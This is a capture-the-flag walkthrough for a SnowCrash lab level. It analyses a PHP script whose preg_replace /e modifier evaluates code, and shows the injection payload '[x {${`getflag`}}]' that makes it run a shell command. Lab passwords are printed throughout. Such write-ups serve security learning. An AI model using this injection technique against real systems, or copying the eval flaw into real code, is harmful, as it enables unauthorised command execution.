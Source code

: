 ## Level06

Login as usual with a password

```
ssh -i ~/.ssh/id_rsa.pub level05@127.0.0.1 -p 4242
viuaaale9huek52boumoomioc
```

We can see the level06.php file, so I tried to execute it first. Nothing came out but we verified that this php file worked correctly.

```
PHP Notice:  Undefined offset: 1 in /home/user/level06/level06.php on line 5
PHP Notice:  Undefined offset: 2 in /home/user/level06/level06.php on line 5
PHP Warning:  file_get_contents(): Filename cannot be empty in /home/user/level06/level06.php on line 4
level06@SnowCrash:~$ php level06.php helloWorld
PHP Notice:  Undefined offset: 2 in /home/user/level06/level06.php on line 5
PHP Warning:  file_get_contents(helloWorld): failed to open stream: No such file or directory in /home/user/level06/level06.php on line 4
```

So, let's take a look at this php file step by step.

```
#!/usr/bin/php
<?php
// Define function y
function y($m) {
    $m = preg_replace("/\./", " x ", $m);
    $m = preg_replace("/@/", " y", $m);
    return $m;
}

// Define function x
function x($y, $z) {
    // Read the contents of file $y
    $a = file_get_contents($y);
    // Replace [x ...] with the result of calling function y on the captured group (\2)
    $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
    // Replace [ with (
    $a = preg_replace("/\[/", "(", $a);
    // Replace ] with )
    $a = preg_replace("/\]/", ")", $a);
    return $a;
}

// Call function x with command line arguments
$r = x($argv[1], $argv[2]);
// Print the result
print $r;
?>

```

If we break down in to the php code,

1. Function `y($m)`:

   - Replaces dots (.) with spaces (' x ') and replaces '@' with the string 'y' in the string `$m`, then returns the result.

2. Function `x($y, $z)`: takes two inputs

   - Reads the contents of the file specified by `$y` and stores it in `$a`.
   - Uses the regular expression `/(\[x (.*)\])/e` (e: "evaluate" flag, this replacement string is treated as PHP code ) to find the pattern '[x ...]' in `$a` and calls the `y()` function to perform transformations. Here, the `e` flag allows the replacement string to be executed as PHP code. Note that this feature was deprecated in PHP 5.5.0 and completely removed in PHP 7.
   - Replaces remaining `[` and `]` characters with `(` and `)`, respectively.
   - Returns the result.

3. Variable `$r`:

   - Stores the result of the `x()` function call.

4. Output:
   - Prints the result.

The main functionality of this code is to find and transform specific patterns in a file, and then output the transformed content.

Let's take a short look on PHP.
Since, I don't know know much about php, I tried to look at the official doc.
Php also allows us to run shell commands in variable interpolations using backticks. This feature is called **Execution operator**

> https://www.php.net/manual/en/language.types.string.php

And I found something interesting as below:

```
echo "This is the value of the var named by the return value of getName(): {${getName()}}";
```

1. We want to modify the input string `[x (anything here)]` so that the second capture group in the regular expression will be replaced by `${'getflag'}`. This way, when the function `y()` is called, it will execute the command `getflag`.

2. So, our modified input string should be `[x ${'getflag'}]`. This will allow us to use variable interpolation to execute the `getflag` command within the `y()` function.

So, using these php functions specfic traits and with the help of php documentations, we can exectue command using x functions and write in to a file as below.

```
level06@SnowCrash:~$ echo '[x {${`getflag`}}]' > /tmp/getflag
level06@SnowCrash:~$ cat /tmp/getflag
[x {${`getflag`}}]
```

And we retrieved the password as below.

```
level06@SnowCrash:~$ ./level06 /tmp/getflag
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
 in /home/user/level06/level06.php(4) : regexp code on line 1
```

<details>
  <summary> Password </summary>
  wiok45aaoguiboiki2tuin6ub
  </details>
